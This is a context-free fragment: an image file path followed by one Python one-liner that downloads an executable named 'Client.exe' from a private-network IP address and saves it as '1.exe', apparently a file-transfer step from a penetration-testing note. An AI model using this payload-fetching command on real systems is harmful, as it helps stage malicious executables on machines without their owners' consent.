 	>python -c 'import urllib;urllib.urlretrieve("http://192.168.1.192/Client.exe","/path/to/save/1.exe")'